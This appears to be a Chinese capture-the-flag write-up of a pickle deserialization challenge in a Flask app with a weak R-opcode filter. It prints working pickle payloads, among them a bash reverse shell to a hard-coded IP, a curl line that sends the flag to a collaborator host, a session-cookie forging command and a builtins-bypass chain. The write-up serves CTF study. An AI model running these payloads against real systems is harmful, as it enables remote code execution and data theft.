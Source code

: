 
{{% spoiler "栗子8 - [巅峰极客 2021]opcode" %}}

首页是登录框，任意值均可登入 明面上没什么东西 抓包后看到post传入参数有三个 username, password, imagePath，这里的imagePath也可进行任意文件读取，看一下后端源码

![image-20211024145247073](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024145247073.png)

第一眼看过去是p牛的题和另一个题的杂交了，限制builtins并且不能有R操作码，入口处在44行的`session['data']`处

但是我没仔细注意的地方是17行，跟p牛的那个题一对比就能看出来这样的写法<u>因为是单独的def而不是在对PickleSerializer进行修改，完全做不到重写`pickle.loads`方法，只是个摆设</u>，相当于仅对R操作码进行了限制，笑嘻了

直接上`eval()`+`b'o'`来弹shell了，不多bb

```python
(cbuiltins
eval
S'__import__("os").system(\'bash -c "bash -i >& /dev/tcp/101.35.113.107/8426 0&1"\')'
o.
```

或者是用`system()`+`curl`+`b'o'`外带flag

```python
(cos
system
S'curl burp_collaborator.net/?flag=`app/readflag`'
o.
```

然后生成b64的内容（用`'''`的好处是不用考虑太多引号转义的问题

```python
import base64
data = b'''xxxxxxxxxxxxxx'''
print(base64.b64encode(data))
```

cookie的生成就是flask_session_cookie_manager一把梭了

```bash
$ python3 flask_session_cookie_manager3.py encode -s 'y0u-wi11_neuer_kn0vv-!@#se%32' -t '{"data": "xxxxb64_contentxxxx", "username": "adminadmin"}' 
```

————如果按照题目原有的意思，限制`builtins`+`b'R'`操作码也是很好做出来的

先用pker生成带R的opcode

```python
getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
__builtins__ = dict_get(builtins, '__builtins__')
eval = getattr(__builtins__, 'eval')
eval('__import__("os").system("whoami")')
return
# b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
```

